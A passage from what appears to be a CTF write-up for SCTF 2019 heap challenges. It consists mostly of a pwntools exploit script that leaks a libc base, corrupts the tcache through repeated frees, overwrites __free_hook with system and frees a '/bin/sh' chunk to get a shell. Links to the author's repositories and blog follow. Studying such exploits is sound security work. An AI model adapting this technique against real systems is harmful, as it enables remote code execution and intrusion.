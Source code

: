 ```python
base=int("0x"+p.readuntil("p")[:-1],16)-(0x7ffff7ffea78-0x7ffff7a26000)-(0x7ffff2264fa-0x7ffff7dd7000)
log.warning(hex(base))

libc.address=base
cmd(1)
cmd(0)
for x in range(4):
	free(0)
add(0x8,p64(0x7ffff7ff15a8-0x7ffff7dd7000+base))
#add(0x8,p64(libc.sym['__free_hook']))
add(0x10)
gdb.attach(p)
add(0x18,p64(0x7ffff7e85f80-0x7ffff7dd7000+base)+'\n')
#add(0x18,p64(libc.sym['system'])+"\n")
add(0x28,"/bin/sh\x00\n")

free(4)
#gdb.attach(p,'b *0x000555555555604')

#
p.interactive()
# 1:15:54
# 19-06-27
```



[1]: https://github.com/n132/Watermalon/tree/master/Sctf_2019/easy-heap
[2]: https://n132.github.io/2019/04/11/2019-04-11-Off-by-one/
[3]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[4]: https://github.com/n132/Watermalon/tree/master/Sctf_2019/one_heap
[5]: https://github.com/n132/Watermalon/tree/master/Sctf_2019/two_heap
[6]: https://www.xctf.org.cn/library/details/e79537ac55b532b974acc27ae514480068344dca/
